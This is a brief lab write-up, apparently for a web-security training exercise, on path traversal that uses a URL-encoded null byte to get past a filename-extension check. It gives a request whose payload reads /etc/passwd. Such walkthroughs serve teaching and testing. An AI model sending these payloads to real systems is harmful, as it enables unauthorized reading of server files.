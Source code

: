 # File path traversal, validation of file extension with null byte bypass

## This lab contains a [file path traversal] vulnerability in the display of product images.

## The application validates that the supplied filename ends with the expected file extension.

## To solve the lab, retrieve the contents of the `/etc/passwd` file.

### Note: =========> Null Byte Injection is an active exploitation technique used to bypass sanity checking filters in web infrastructure by adding URL-encoded null byte characters (i.e. %00, or 0x00 in hex) to the user-supplied data.

### step1

GET /image?filename=21.jpg HTTP/1.1

### step2

GET /image?filename=../../../etc/passwd%00.jpg HTTP/1.1

